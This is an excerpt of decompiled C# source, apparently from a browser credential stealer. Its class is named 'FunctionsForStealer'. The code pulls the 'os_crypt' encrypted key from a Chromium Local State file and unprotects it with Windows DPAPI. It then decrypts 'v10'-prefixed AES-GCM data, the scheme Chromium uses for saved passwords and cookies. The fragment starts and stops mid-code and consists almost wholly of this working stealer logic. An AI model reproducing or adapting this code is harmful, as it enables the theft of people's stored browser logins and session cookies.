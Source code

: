 ```csharp
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}
		}

		public class FunctionsForDecrypt
		{
	
			public static bool IsV10(byte[] data)
			{
				return Encoding.UTF8.GetString(data.Take(3).ToArray<byte>()) == "v10";
			}

			
			public static void Prepare(byte[] encryptedData, out byte[] nonce, out byte[] ciphertextTag)
			{
				nonce = new byte[12];
				ciphertextTag = new byte[encryptedData.Length - 3 - nonce.Length];
				Array.Copy(encryptedData, 3, nonce, 0, nonce.Length);
				Array.Copy(encryptedData, 3 + nonce.Length, ciphertextTag, 0, ciphertextTag.Length);
			}

		
			public static string Decrypt(byte[] encryptedBytes, byte[] key, byte[] iv)
			{
				string text = string.Empty;
				try
				{
					GcmBlockCipher gcmBlockCipher = new GcmBlockCipher(new AesEngine());
					AeadParameters aeadParameters = new AeadParameters(new KeyParameter(key), 128, iv, null);
					gcmBlockCipher.Init(false, aeadParameters);
					byte[] array = new byte[gcmBlockCipher.GetOutputSize(encryptedBytes.Length)];
					int num = gcmBlockCipher.ProcessBytes(encryptedBytes, 0, encryptedBytes.Length, array, 0);
```